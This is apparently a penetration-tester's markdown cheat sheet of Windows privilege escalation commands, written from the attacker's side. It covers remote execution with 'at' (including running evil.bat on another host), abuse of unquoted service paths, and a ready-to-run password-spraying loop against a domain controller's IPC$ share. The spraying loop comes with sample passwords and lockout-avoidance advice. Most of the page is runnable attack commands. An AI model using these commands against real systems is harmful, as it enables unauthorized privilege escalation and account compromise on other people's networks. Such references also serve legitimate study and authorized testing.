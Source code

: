 # Windows Privilege Escalation Commands

Command that can be executed from the context of a shell prompt that help escalate or increase attacker privilege of the target.

  * [UAC](uac.md) - How to bypass UAC.

# General Commands
### at (Scheduler)
 * **Command with arguments**: `at [TIME] [cmd]`
 * **Description**: This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.
 * **Examples**: 
    * Locally - `at 13:20 /interactive cmd`
    * Remotely - From http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607
         * `net use \\[computername|IP] /user:DOMAIN\username password`
         * `net time \\[computername|IP]`
         * `at \\[computername|IP] 13:20 c:\temp\evil.bat`

# Service security

### Unquoted service names

Services with unquoted binary paths may allow privilege escalation.

 * Assume ServiceA refers to the unquoted path C:\Program Files\Some Service\service.exe
 * Service is started with desirable privileges (e.g. domain, SYSTEM)
 * If attacker can create files as c:\Program.exe or ''c:\Program Files\Some.bat'' the next time the service starts the attacker controlled binary will execute
   * This is because the system can not decide if a space in the command string indicates a space in the binary path or a separator between command line arguments. The system starts with the first substring before the first space and checks if there is a file with an executable extension there (in this case C:\Program.exe, C:\Program.bat, etc.). If there is not, it checks for the next substring (C:\Program Files\Some.exe, C:\Program Files\Some.bat, etc.) and so on. If you can create a file that is checked before the intended executable, you win.
   * The scenario is typical when services are created from the command line with sc: `sc create PrivEsc binpath= "..."`

# Password Spraying

This section taken from Skoudis / Strand Pilliage the villlage redux webcast

### Get a list of users from the domain
 * **Command with arguments**: `net user /domain`
 * **Description**: This command will pull a list of all domain user accounts
 * **Examples**: 
    * Locally - `net user /domain > users`

### Simple `for` loop to try one or two passwords across all the users on the domain
 * **Command with arguments**: `@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\[DOMAINCONTROLLER]\IPC$ /user:[DOMAIN]\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use / delete \\[DOMAINCONTROLLER]\IPC$ > NUL`
 * **Formatted for readability:
```
@FOR /F %n in (users.txt) DO
 @FOR / F %p in (pass.txt) DO
  @net use \\[DOMAINCONTROLLER]\IPC$ /user:[DOMAIN]\%n %p 1>NUL 2>&1 &&
   @echo [*] %n:%p &&
    @net use / delete \\[DOMAINCONTROLLER]IPC$ > NULL
```
 * **Description**: a for loop that iterated over all the users in `users.txt` and tries all the passwords listed in `pass.txt`. Can be used with the `net user /domain` command listed above for every user in the domain.
 *  **Note**: To prevent account lockout, the amount of passwords in `pass.txt` should be kept very small--one or two at most.
 * **Examples**: 
  * Running this command against a domain `COMPANY` and a domain controller `COMPANYDC1`
       * `net user /domain > DomainUsers.txt`
        * `echo "Password1" >> pass.txt`
        * `echo "1q2w3e4r" >> pass.txt`
        * `@FOR /F %n in (DomainUsers.txt) DO @FOR /F %p in (pass.txt) DO @net use \\COMPANYDC1\IPC$ /user:COMPANY\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use / delete \\COMPANYDC1\IPC$ > NUL`

# Tools

* [Windows Privesc Check](https://code.google.com/p/windows-privesc-check/)
  * Python + PyInstaller
  * No unicode support ([attempt to fix this](https://github.com/silentsignal/wpc))
  * Awful code base
* [Windows Privesc Check 2.0](https://github.com/silentsignal/wpc/tree/wpc-2.0)
  * Python + PyInstaller
  * Code is still very hard to maintain
  * Still painful to use on non-English systems
* [PowerUp](https://github.com/HarmJ0y/PowerUp)
  * Smart PowerShell cmdlets (you can run these at remote hosts also!)
  * Offensive approach
  * Checks only the privileges of the executing user
* [WPC-PS](https://github.com/silentsignal/wpc-ps)
  * PowerShell
  * Tends to check privileges for all accounts (thus identifying potential targets for privesc)
  * Still experimental

